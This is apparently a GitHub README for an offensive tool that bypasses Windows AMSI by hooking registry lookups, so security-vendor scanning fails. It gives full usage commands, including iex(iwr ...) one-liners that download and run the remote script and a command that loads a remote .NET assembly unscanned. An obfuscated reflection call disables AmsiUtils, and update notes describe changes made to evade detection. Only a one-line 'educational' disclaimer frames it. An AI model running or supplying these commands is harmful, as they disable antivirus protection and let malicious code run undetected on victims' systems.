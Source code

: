 ## UPDATES
```diff
! UPDATE 26/05/2025
! Added a counter for the .cs/.ps1 files so that after it has completed the redirection of "Software\Microsoft\AMSI\Providers", it will unhook RegOpenKeyExW
! This is to remove the overhead introduced by hooking every RegOpenKeyExW call and causing problems when RegOpenKeyExW is legitimately invoked
! For the powershell reflective loading and .ps1 script, MAKE SURE the process has fully loaded, can run some arbitrary commands first..
```
```diff
! UPDATE 02/06/2025
! "Software\Microsoft\AMSI\Providers" is being detected, code for TrollDisappearKey.cs altered to pass it in as argument as instead
```

# TrollDisappearKey
<br>
<b>bypass clr amsi</b> <br>
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() <br>
<br>
<b>bypass powershell amsi</b> <br>
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load <br>
TrollDisappearKeyPS.ps1 -> copy paste into powershell (most likely to get flagged)

# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 


## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2> <KEY>
```
## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders" "Software\Microsoft\AMSI\Providers"
```

## .powershell Usage (does not require admin)

```
##For PS Script
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.ps1 -UseBasicParsing).content

##For PS dll reflective after dl to disk
$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollDisappearKey/refs/heads/main/TrollDisappearKeyPS.cs -UseBasicParsing).content
Add-Type $code
[TrollDisappearKeyPS]::DisappearKey()
([Ref].Assembly.GetType([System.String]::Join("", "S", "y", "s", "t", "e", "m", ".", "M", "a", "n", "a", "g", "e", "m", "e", "n", "t", ".", "A", "u", "t", "o", "m", "a", "t", "i", "o", "n", ".", "A", "m", "s", "i", "U", "t", "i", "l", "s")).GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq Uninitialize).Invoke($object,$null)
```

## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







